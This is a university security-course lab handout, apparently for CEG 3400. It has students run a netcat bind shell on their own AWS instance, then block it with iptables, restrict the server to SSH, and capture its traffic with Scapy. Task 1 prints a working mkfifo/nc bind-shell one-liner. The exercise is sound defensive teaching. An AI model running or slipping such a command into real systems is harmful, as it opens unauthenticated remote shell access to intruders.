 ## Lab 4 : CEG 3400

### The Terminalator

Table of contents:
* [Background](LAB4-INSTRUCTIONS.md#background)
* [Objectives](LAB4-INSTRUCTIONS.md#objectives)
* [Preparation](LAB4-INSTRUCTIONS.md#preparation)
* [Task 1: A Shell Game](LAB4-INSTRUCTIONS.md#task-1-a-shell-game)
* [Task 2: Iptables](LAB4-INSTRUCTIONS.md#task-2-iptables)
* [Task 3: Any Port in a Storm](LAB4-INSTRUCTIONS.md#task-3-any-port-in-a-storm)

---

#### Background and Objectives

In this lab you will learn about some basic (and more advanced) network manipulation 
tools by catpuring and creating packets, and exploring a well documented type of 
attack.

This lab assumes you have a basic understanding of networking, IP addresses, ports
and packets (from CEG-2350 and what was covered in class).

Students should become familiar with the following:

* creating, sending, and capturing packets with Scapy
* abusing netcat and pipes
* configuring iptables (firewalls)

---

#### Rubrik
| Item | # Points|
| --- | --- |
| 10 commits | 10 |
| Good markdown style | 20 |
| Task 1 | 30 |
| Task 2 | 30 | 
| Task 3 | 30 |
| EC     | 30 |

---

### Preparation

This lab will require some work be done in AWS!  For those of you unfamiliar with AWS please see the following guide:

* [AWS Guide for CEG 3400](AWS.md) 

Please deploy the below instance and work inside the lab.

* [CEG 3400 Lab 4 AWS link](https://console.aws.amazon.com/cloudformation/home?region=us-east-1#/stacks/new?stackName=ceg3400Lab&templateURL=https:%2F%2Fwsu-cecs-cf-templates.s3.us-east-2.amazonaws.com%2Fcourse-templates%2Fceg3400-mek.yml)
* Identify the IP address of the running EC2 instance created [in the EC2
  page](https://console.aws.amazon.com/ec2/v2/home?region=us-east-1#Instances:)

---

## Task 1: A Shell Game

You find the following command in the command history on one of your systems:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 >/tmp/f
```

Investigate this command by running it on your AWS system.  While it is running scan the
***PUBLIC*** IP address of your AWS instance.

A security researcher mentioned that an outbreak of Bind and Reverse shells have been cropping 
up on your network recently.  Do some research on ***Bind Shells*** and ***Reverse Shells***.

After you have an understanding of what a Bind shell and reverse shell are see if you can 
make this one respond!

Hint: Try connecting to the opened port with `nc` from a different system.  (We will be covering `nc` usage on Thursday, but it is a simple command if you want to tackle it before then.

Answer all questions in `README.md`.

**You may want to take a look at the Extra Credit section below prior to moving on with the lab.**

---

## Task 2: Iptables

Clearly the previous command should not be left running.  But we can do better.

Using `iptables` block all incoming access to the malicious shell port on your AWS system.

Hint: you can craft a single `iptables` command or you can use `iptables-save` 
and `iptables-restore` to simplify saving the full firewall rules list.

---

## Task 3: Any Port in a Storm

After successfully blocking that shell your crack team of security researchers start 
seeing more malicious shells running on other ports.  Before you can start yelling at
your co-workers you need to lock your system down.

Identify all NEEDED ports for your standard communications with this server (SSH) and 
block ***ALL OTHER PORTS***.

***Hint:*** you will likely mess this up when deploying, be sure to document and 
`git commit` / `git push` all files including your final task 4 iptables-rules file 
before attempting this task.  If you lock yourself out that is OK, just answer all 
questions for this task.

---

## Extra Credit

Using scapy (which may need to be installed on your AWS system), capture a packet using `sniff()` 
that contains either a command being sent to your malicious shell, or a response to a command.

Print the contents of the packet using `show()` and describe what the command/response is.  Include
this `show()` and any other data used in determining the contents of the packet.

**All EC questions must be answered to recieve any extra credit.**  I will not be grading partially finished EC.


